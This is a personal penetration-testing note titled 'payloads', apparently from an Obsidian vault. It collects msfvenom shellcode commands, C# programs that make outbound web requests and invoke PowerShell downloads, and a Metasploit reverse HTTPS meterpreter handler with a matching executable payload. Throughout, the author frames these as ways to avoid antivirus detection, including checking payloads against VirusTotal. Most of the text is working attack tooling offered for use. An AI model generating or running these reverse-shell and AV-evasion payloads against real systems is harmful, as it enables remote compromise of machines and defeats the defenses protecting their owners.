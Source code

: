 ```yaml
---
creation date: November 8th 2023
last modified date: November 8th 2023
aliases: []
tags: #📕
---
```


Primary Categories: { Add link(s) [[]] back to related PRIMARY categories }
Secondary Categories:  { Add link(s) [[]] back to related SECONDARY categories }
Links: {Add link(s) [[]] to related terms}
Search Tag: #📕  

# [[payloads]]  
___

## Description:  

Use virus total to ensure that these payloads wont get caught by AV

Testing with ping:
```
msfvenom -f c -p windows/exec CMD="cmd.exe /C ping 192.168.0.135"

tcpdump icmp -n -i wlan0
```

C# code for a a web request. This is good to test exploits without getting caught by AV. Needs to be compiled with visual studio or another compiler:

```
Raw C# code:

using System;
using System.Net.Http;
using System.Threading.Tasks;
 
class Program
{
    static async Task Main()
    {
        using (HttpClient httpClient = new HttpClient())
        {
            string url = "http://172.16.131.150/test";
            HttpResponseMessage response = await httpClient.GetAsync(url);
        }
    }
}


Run on Kali:
sudo python3 -m http.server 80
```

Run any powershell command (this will also create .dll files that need to be in the directory the exploit is running)
```
using System;  
using System.Management.Automation;

class Program  
{  
    static void Main()  
    {  
        using (PowerShell ps = PowerShell.Create())  
        {  

            // Build the PowerShell command  
            string command = $"Invoke-WebRequest -Uri '{url}'";

            // Add and invoke the PowerShell command  
            ps.AddScript(command);  
            ps.Invoke();  
        }  
    }  
}
```

### Metasploit Reverse Shell

```
sudo msfconsole -q -x "use exploit/multi/handler; set PAYLOAD windows/x64/meterpreter/reverse_https; set EXITFUNC thread; set LHOST <IP>; set LPORT 443; exploit -j"

sudo msfvenom -p windows/meterpreter_reverse_https LHOST=<IP> LPORT=443 EXITFUNC=thread -f exe > test.exe
```


___

## Resources:

| Hyperlink | Info |
| --------- | ---- |


Created Date: November 8th 2023 (10:25 am)  
Last Modified Date: <%+tp.file.last_modified_date("MMMM Do YYYY (hh:ss a)")%>
